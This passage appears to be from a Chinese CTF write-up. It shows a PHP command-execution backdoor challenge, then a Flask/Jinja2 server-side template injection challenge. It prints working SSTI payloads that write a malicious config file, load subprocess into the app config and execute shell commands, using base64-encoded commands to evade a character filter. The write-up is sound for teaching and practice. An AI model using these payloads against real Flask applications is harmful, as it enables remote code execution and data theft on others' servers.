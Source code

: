 ```
        }
           return $number == '11259375';
}
if(isset($_GET[sign])&& check($_GET[sign])){
        setcookie('auth','tcp tunnel is forbidden!');
        if(isset($_POST['cmd'])){
                $command=$_POST[cmd];
                $result=exec($command);
                //echo $result;
        }
}else{
        die('no sign');
}
```

绕过check函数，将11259375转base64

3.



## fuzz (i春秋)

**考点：python模板注入**

[出题人讲解视频](https://www.ichunqiu.com/course/56487)

[Flask/Jinja2中的服务端模版注入（一）](https://www.freebuf.com/articles/web/98619.html)

[Flask/Jinja2中的服务端模版注入（二）](https://www.freebuf.com/articles/web/98928.html)

提示please fuzz，参数注入，基本的参数都试一试，?name=1时回显，尝试sql注入不成功

Flask/Jinja2中存在的SSTI漏洞读取和写入文件，尝试`?name={{config}}`，返回flask的config配置的字典对象


```
//向服务器写入文件，当编译完成为subprocess模块引入check_output方法，并将其设置指向变量RUNCMD
?name={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}
 
//注入'/tmp/owned.cfg'，向config对象添加一个新项
?name={{ config.from_pyfile('/tmp/owned.cfg') }}

//验证是否能运行命令行
?name={{ config['RUNCMD']('/usr/bin/id',shell=True) }}
```

执行命令 ls，不成功，执行pwd，成功回显，存在字符过滤，使用反引号注入base64编码后执行解码命令，例如`echo bHMK | base64 -d`

```
//执行ls，成功
?name={{ config['RUNCMD']('`echo bHMK | base64 -d`',shell=True) }} //echo bHMK | base64 -d 解码

//执行ls -a，成功
?name={{ config['RUNCMD']('`echo bHMgLWEK | base64 -d`',shell=True) }}

//打开网页主目录，ls -a /var/www/html，回显fl4g
?name={{ config['RUNCMD']('`echo bHMgLWEgL3Zhci93d3cvaHRtbAo= | base64 -d`',shell=True) }}

//执行cat命令，cat /var/www/html/fl4g
?name={{ config['RUNCMD']('`echo Y2F0IC92YXIvd3d3L2h0bWwvZmw0Zwo= | base64 -d`',shell=True) }}
```
